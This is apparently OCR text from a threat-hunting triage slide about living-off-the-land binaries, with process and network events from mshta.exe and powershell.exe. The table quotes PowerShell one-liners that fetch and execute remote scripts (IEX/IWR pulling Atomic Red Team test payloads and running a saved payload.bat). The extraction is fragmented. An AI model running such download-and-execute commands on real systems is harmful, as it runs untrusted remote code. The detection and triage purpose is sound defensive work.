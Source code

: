 powershell.exe

raw.githubusercontent.com

Please, you don't understand... Nothing in there is dangerous.
Triage Results

Guiding Questions
 Is the path unexpected?  Do file names look like Windows binaries?  Was the PE image signed?  Is it a legitimate product?  Has this been publically reported?

lolbas revello

event_type parent_process_name

process_name command_line

destination

process network process network
process

amazonAssistantService.exe mshta.exe

explorer.exe

mshta.exe powershell.exe powershell.exe

cmd.exe

powershell.exe

"mshta.exe" "C:\Program Files (x86)\Amazon\Amazon Assistant\aa.hta"
images-na.ssl-images-amazon.com "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
go.microsoft.com powershell.exe IEX ( IWR -uri 'https://raw.githubusercontent.com/redcanaryco/ atomic-red-team/master/ARTifacts/Chain_Reactions/ chain_reaction_DragonsTail.ps1')

network process cmd.exe

powershell.exe powershell.exe

raw.githubusercontent.com
powershell.exe IWR -uri "https://raw.githubusercontent.com/ redcanaryco/atomic-red-team/master/ARTifacts/ Chain_Reactions/chain_reaction_DragonsTail.bat" -OutFile "~\Documents\payload.bat" ; ~\Documents\payload.bat

network

powershell.exe

raw.githubusercontent.com

lolbas revello

event_type parent_process_name

process_name command_line

destination

process network process network
process
network
process
